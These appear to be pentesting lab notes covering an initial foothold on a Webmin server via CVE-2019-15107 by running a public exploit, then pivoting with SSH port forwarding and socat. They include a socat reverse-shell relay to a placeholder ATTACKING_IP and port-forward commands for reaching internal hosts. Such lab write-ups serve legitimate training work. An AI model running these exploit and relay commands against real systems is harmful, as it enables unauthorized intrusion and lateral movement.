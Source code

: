 
## Initial Foothold

10000/tcp open   http       MiniServ 1.890 (Webmin httpd)

### Vulnerable to CVE-2019-15107

```
git clone https://github.com/MuirlandOracle/CVE-2019-15107

cd CVE-2019-15107 && pip3 install -r requirements.txt

./CVE-2019-15107 10.200.84.200
```



## SSH Port Forwarding

Port forwarding is accomplished with the -L switch, which creates a link to a Local port. For example, if we had SSH access to 172.16.0.5 and there's a webserver running on 172.16.0.10, we could use this command to create a link to the server on 172.16.0.10:	

`ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN`

## Socat

### Reverse Shell Relay

`./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`

- tcp-l:8000 is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
- tcp:ATTACKING_IP:443 connects back to our local IP on port 443. The ATTACKING_IP obviously needs to be filled in correctly for this to work.
- & backgrounds the listener, turning it into a job so that we can still use the shell to execute other commands.

### Port Forwarding -- Easy

If the compromised server is 172.16.0.5 and the target is port 3306 of 172.16.0.10, we could use the following command (on the compromised server) to create a port forward:


`./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &`

- fork - puts ever new connection in new process
- reuseaddr - port stays open after a connection is made to it

### Port Forwarding -- Quiet

On our own attacking machine, we issue the following command:

`socat tcp-l:8001 tcp-l:8000,fork,reuseaddr & `
